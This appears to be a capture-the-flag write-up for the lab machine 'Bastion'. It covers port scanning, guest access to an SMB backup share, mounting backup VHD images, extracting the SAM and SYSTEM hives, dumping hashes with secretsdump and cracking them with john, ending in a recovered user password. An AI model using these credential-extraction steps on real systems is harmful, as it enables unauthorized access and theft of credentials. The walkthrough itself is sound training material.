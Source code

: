# Bastion

![image](https://user-images.githubusercontent.com/5285547/124922763-bdd69080-dff1-11eb-8d6f-a61503cb4e42.png)

## Nmap 

```
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m14s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-08T14:41:29+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-08T12:41:28
|_  start_date: 2021-07-08T05:30:31
```

## Smb

```
smbclient -L \\10.10.10.134                   
Enter WORKGROUP\ac1d's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```


/backups
```
smbclient \\\\10.10.10.134\\backups

smb: \> ls
  .                                   D        0  Thu Jul  8 08:39:38 2021
  ..                                  D        0  Thu Jul  8 08:39:38 2021
  note.txt                           AR      116  Tue Apr 16 11:10:09 2019
  OBFUEDPSHM                          D        0  Thu Jul  8 08:39:38 2021
  SDT65CB.tmp                         A        0  Fri Feb 22 12:43:08 2019
  WindowsImageBackup                 Dn        0  Fri Feb 22 12:44:02 2019
```

```
cat note.txt 

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

![image](https://user-images.githubusercontent.com/5285547/124925815-c086b500-dff4-11eb-85a6-d8fed8fef8ff.png)

We see some vhd files, but with the note.txt in mind, we should not try to copy them across as they are vrey large files.  
Instead we can mount them using the info here: https://vk9-sec.com/mount-extract-password-hashes-from-vhd-files/

```
sudo apt install libguestfs-tools -y
sudo mkdir /mnt/vhd 
ls -ld /mnt/vhd
sudo mount -t cifs //10.10.10.134/backups /mnt/vhd -o user,password=
cd "/mnt/vhd/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351"
```

This command takes a while so wait a bit. 
```
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/any
cd /mnt/any
```

![image](https://user-images.githubusercontent.com/5285547/124927480-98985100-dff6-11eb-87df-9c50b57ff66f.png)


## Cracking SAM database files

Find the SAM database location:
```
cd /mnt/any/Windows/System32/config
cp SAM SYSTEM /tmp 
cd /tmp
```
```
impacket-secretsdump -sam SAM -system SYSTEM local > file
```

```
john file.sam --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
```

![image](https://user-images.githubusercontent.com/5285547/124928250-60454280-dff7-11eb-8a71-52581bbf9f9d.png)







